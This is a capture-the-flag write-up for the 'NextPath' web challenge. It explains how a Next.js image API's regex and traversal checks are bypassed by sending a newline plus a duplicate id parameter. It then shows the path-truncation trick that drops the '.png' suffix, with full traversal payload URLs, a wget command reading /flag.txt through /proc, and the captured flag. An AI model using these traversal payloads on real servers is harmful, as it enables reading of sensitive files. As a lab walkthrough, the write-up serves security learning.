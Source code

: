 # NextPath Challenge Exploitation

## Key Information

### Docker Configuration

The Docker file reveals the location of the flag:

```dockerfile
COPY flag.txt /flag.txt
```

### Application Framework

The web application is built using **Next.js**, as identified from `package.json`:

```json
{
  "name": "nextpath",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "eslint": "8.42.0",
    "eslint-config-next": "13.4.5",
    "fs": "^0.0.1-security",
    "next": "13.4.5",
    "react": "18.2.0",
    "react-dom": "18.2.0"
  }
}
```

### Key Endpoint

The `index.js` file in `app/pages` includes a call to the `/api/team` API:

```js
{/* Team Section */}
<section className="team">
  <div className="container">
    <h2 className="text-center mb-4">Meet Our Team</h2>
    <div className="row">
      <div className="col-md-4">
        <div className="team-member">
          <img src="/api/team?id=1" alt="Team Member 1" />
          <h4>John Doe</h4>
          <p>Founder/CEO</p>
        </div>
      </div>
    </div>
  </div>
</section>
```

This API fetches image data for team members using an `id` parameter.

---

## API Vulnerability Analysis

### Code Breakdown (`team.js`)

The handler function for `/api/team` contains potential vulnerabilities:

```js
import path from 'path';
import fs from 'fs';

const ID_REGEX = /^[0-9]+$/m;

export default function handler({ query }, res) {
  if (!query.id) {
    res.status(400).end("Missing id parameter");
    return;
  }

  if (!ID_REGEX.test(query.id)) {
    console.error("Invalid format:", query.id);
    res.status(400).end("Invalid format");
    return;
  }

  if (query.id.includes("/") || query.id.includes("..")) {
    console.error("DIRECTORY TRAVERSAL DETECTED:", query.id);
    res.status(400).end("DIRECTORY TRAVERSAL DETECTED?!? This incident will be reported.");
    return;
  }

  try {
    const filepath = path.join("team", query.id + ".png");
    const content = fs.readFileSync(filepath.slice(0, 100));

    res.setHeader("Content-Type", "image/png");
    res.status(200).end(content);
  } catch (e) {
    console.error("Not Found", e.toString());
    res.status(404).end(e.toString());
  }
}
```

#### Input Validation

1. **Regex Check**: Validates that `id` contains only numeric values.
2. **Directory Traversal Check**: Explicitly blocks `/` and `..` sequences.

#### File Access

- Constructs the file path with `.png` appended to `id`.
- Uses `slice(0, 100)` to limit the read length of the file.

---

## Exploitation Steps

### 1. Bypassing Validation

#### CRLF Injection

The input validation filters for numeric values and directory traversal characters. However, CRLF (`%0D%0A`) can be used to inject additional parameters into the query.

**Payload**:

```http
http://<target>/api/team?id=1%0D%0A
```

#### Array Manipulation

By sending an additional `id` parameter, the `query.id` becomes an array, bypassing single-value checks.

**Payload**:

```http
http://<target>/api/team?id=1%0D%0A&id=/path/file
```

---

### 2. Path Length Manipulation

The `.png` extension is appended to `id` before slicing the path to 100 characters. By providing a sufficiently long path, we can bypass the extension by truncating it.

**Payload**:

```http
http://<target>/api/team?id=1%0A&id=/../../../../../../../../../../../../../../../../../../../../proc/1/task/1/root/proc/1/task/1/root/flag.txt
```

---

### 3. Retrieving the Flag

Use `wget` to fetch the flag using the crafted payload:

```bash
wget -O output "http://<target>/api/team?id=1%0A&id=/../../../../../../../../../../../../../../../../../../../../proc/1/task/1/root/proc/1/task/1/root/flag.txt"
```

**Output**:

```bash
HTB{tr4v3r51ng_p45t_411_th3_ch3ck5...t4sk_w3ll_d0ne!}
```

---

## Achieved Skills

1. **CRLF Injection**: Understanding how CRLF sequences can bypass input validation.
2. **Local File Inclusion (LFI)**: Techniques for bypassing filters to read sensitive files.
3. **Path Manipulation**: Exploiting truncation logic to bypass security mechanisms.
